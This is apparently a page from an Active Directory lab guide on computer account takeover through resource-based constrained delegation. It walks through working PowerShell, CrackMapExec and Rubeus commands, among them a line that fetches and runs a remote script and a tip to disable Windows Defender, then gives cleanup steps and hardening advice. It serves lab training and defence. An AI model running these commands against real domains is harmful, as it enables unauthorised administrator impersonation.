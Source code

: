 # Computeraccount Takeover

## Configuring

### Prerequisite

{% content-ref url="../../acl-abuses/owns.md" %}
[owns.md](../../acl-abuses/owns.md)
{% endcontent-ref %}

### Configuring

Nothing need to be configured to abuse this since we set the GenericAll permissions during the "Owns" section. If you would like to configure this it can be configured the same way as we configured "Write Owner".

## Attacking

### How it works

Is you have GenericAll or GenericWrite rights to a computer object you can write to the attribute `msds-AllowedToActOnBehalfOfOtherIdentity`. If you control this attribute you can impersonate and authenticate as any domain user to the computer. Resulting in getting access to the computer as long as you can impersonate a user that has access too it. Users with the flag "This account is senstitive and cannot be delegated" or members of the "Protected Users Group" can't be impersonated.

### Tools

* [PowerMad](https://github.com/Kevin-Robertson/Powermad)
* [Invoke-DNSUpdate](https://github.com/Kevin-Robertson/Powermad/blob/master/Invoke-DNSUpdate.ps1)

### Executing the attack

#### Prereqesuite

* An account with a SPN associated (or able to add new machines accounts (default value this quota is 10))
* A user with write privileges over the target computer which doesn't have msds-AllowedToActOnBehalfOfOtherIdentity

#### Executing the attack

1. It is expected that the GenericAll permissions during the ACL abuses "Write Owner" and "Owns" are set for the `sa_sql` user. This attack will continue from there:

{% content-ref url="../../acl-abuses/owns.md" %}
[owns.md](../../acl-abuses/owns.md)
{% endcontent-ref %}

2\. First we will check that the target doesn't have the `msds-AllowedToActOnBehalfOfOtherIdentity` attribute set.

```
Get-DomainComputer -Domain secure.local -Credential $creds -Server 10.0.0.100 Data01 | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity
```

![](<../../../../.gitbook/assets/image (18) (1) (1).png>)

The attribute haven't been set yet.

3\. Add the following to the `/etc/hosts` file on Kali otherwise the Crackmapexec command will fail:

```
10.0.0.100 secure.local
10.0.0.100 dc03
10.0.0.100 dc03.secure.local
```

4\. Check if we can add computers to the domain since its a requirement for the attack. We can get the machine account qouta from the domain with Crackmapexec:

```
crackmapexec ldap 10.0.0.100 -u sa_sql -p Iloveyou2 -M MAQ
```

![](<../../../../.gitbook/assets/image (48) (1).png>)

The machine account qouta is 10, meaning we (all authenticated users) can create our own computerobject in the domain.

5\. Create a machine account with the name `FAKE01` and password `123456` with PowerMad:

```
iex (iwr http://192.168.248.2:8090/Powermad.ps1 -usebasicparsing)
New-MachineAccount -Domain secure.local -Credential $creds -DomainController 10.0.0.100 -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

![](<../../../../.gitbook/assets/image (67) (1) (1) (1).png>)

6\. Get the SID of the computerobject we created:

```
Get-DomainComputer fake01 -Domain secure.local -Credential $creds -Server 10.0.0.100
```

![](<../../../../.gitbook/assets/image (55) (1).png>)

7\. Now we need to create the raw security descriptor which we then will write to the attribute:

```
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1498997062-1091976085-892328878-1108)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```

{% hint style="info" %}
Make sure you changed the SID since it can differ in your lab.
{% endhint %}

![](<../../../../.gitbook/assets/image (49).png>)

8\. Now we can write as `sa_sql` to the `msds-allowedtoactonbehalfofotheridentity` attribute of the computerobject `DATA01`:

```
Get-DomainComputer DATA01 -Domain secure.local -Credential $creds -Server 10.0.0.100 | Set-DomainObject -Domain secure.local -Credential $creds -Server 10.0.0.100 -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

![](<../../../../.gitbook/assets/image (66).png>)

9\. Seems like it worked, now we can check the value of the `msds-AllowedToActOnBehalfOfOtherIdentity` attribute by saving it in a variable and doing some powershell confu to decrypt it:

```
$RawBytes = Get-DomainComputer DATA01 -Domain secure.local -Credential $creds -Server 10.0.0.100 -Properties 'msds-allowedtoactonbehalfofotheridentity' | Select-Object -ExpandProperty msds-allowedtoactonbehalfofotheridentity
(New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0).DiscretionaryAcl
Get-DomainComputer -Domain secure.local -Credential $creds -Server 10.0.0.100 <SID>
```

![](<../../../../.gitbook/assets/image (52).png>)

10\. `FAKE01` can impersonate any user now to `DATA01`. To do this we first need to calculate the NTLM hash for the `FAKE01` password, we can do this with Rubeus.

```
.\Rubeus.exe hash /password:123456 /user:fake01 /domain:secure.local
```

![](<../../../../.gitbook/assets/image (72) (1) (1).png>)

{% hint style="info" %}
Temporarily disable Windows Defender if it gets flagged by it.
{% endhint %}

11\. The next step is to run Rubeus to impersonate the `Administrator` user using the `FAKE01` Computeraccount. Abusing Resource Based Constrained Delegation. We will request a CIFS ticket so we can list the C disk.

```
.\Rubeus.exe s4u /domain:secure.local /dc:10.0.0.100 /user:fake01 /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:Administrator /msdsspn:CIFS/data01.secure.local /ptt
```

![](<../../../../.gitbook/assets/image (33).png>)

![](<../../../../.gitbook/assets/image (59).png>)

12\. We got a CIFS ticket as `Administrator` for `data01.secure.local`, now we can try to list the C disk.

![](<../../../../.gitbook/assets/image (61).png>)

### Cleanup

1. Login to `DC03` as `Administrator` with the password `Welcome01!`.
2. Execute the following command to remove the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute from `DATA01`.

```
Set-ADComputer -PrincipalsAllowedToDelegateToAccount $null -Identity data01
```

3\. Execute the following command to remove the `FAKE01` computer we created:

```
Get-ADComputer fake01 | Remove-ADObject
```

## Defending

### Recommendations

* Change who can add computers to the domain.

{% content-ref url="../../../../defence/hardening/change-who-can-join-computers-to-the-domain.md" %}
[change-who-can-join-computers-to-the-domain.md](../../../../defence/hardening/change-who-can-join-computers-to-the-domain.md)
{% endcontent-ref %}

* Add privileged users to the protected users group.

{% content-ref url="../../../../defence/hardening/protected-users-group.md" %}
[protected-users-group.md](../../../../defence/hardening/protected-users-group.md)
{% endcontent-ref %}

* Add the flag "Account is sensitive and cannot be delegated".

{% content-ref url="../../../../defence/hardening/account-is-sensitive-and-cannot-be-delegated.md" %}
[account-is-sensitive-and-cannot-be-delegated.md](../../../../defence/hardening/account-is-sensitive-and-cannot-be-delegated.md)
{% endcontent-ref %}

### Detection



## References

{% embed url="https://github.com/Kevin-Robertson/Powermad" %}

{% embed url="https://github.com/Kevin-Robertson/Powermad/blob/master/Invoke-DNSUpdate.ps1" %}
